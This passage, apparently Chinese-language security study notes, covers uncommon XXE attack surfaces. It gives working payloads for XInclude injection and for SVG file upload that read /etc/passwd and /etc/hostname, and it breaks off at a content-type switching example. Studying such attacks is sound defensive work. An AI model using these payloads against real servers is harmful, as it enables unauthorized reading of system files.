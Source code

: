 ![](2022-11-01-16-33-35.png)
## 不常见的XXE攻击面
除了请求中的XML数据格式可能存在XXE,还有一些不明显的功能也可能造成XXE.
### XInclude attacks
有些时候,用户提交的数据可能只是一个XML数据的一部分,即无法控制整个XML文档,则无法在`DOCTYPE`中定义实体进行XXE.
而XInclude是XML定义的一部分,它允许从子文件中建立一个XML文档。可以把XInclude攻击放在XML文档中的任何数据值中，因此,可以在只控制被放入服务器端XML文档的单一数据项的情况下进行XXE.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```  
首先需要先引入XInclude的命名空间,在href属性指定要包含的文件.  
![](2022-11-01-16-53-51.png)
### 文件上传
除了常见的XML,DOC文件上传可能触发XXE以外,svg文件也可能,在大部分上传图片时,后端图片处理库往往也解析svg文件,而svg同时也是XML结构的文件.  
svg文件内容:  
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### 修改content type
有些后端会根据content type来解析不同的数据包,修改content type为xml格式时,同样也能解析数据.
```http
POST /action HTTP/1.0
```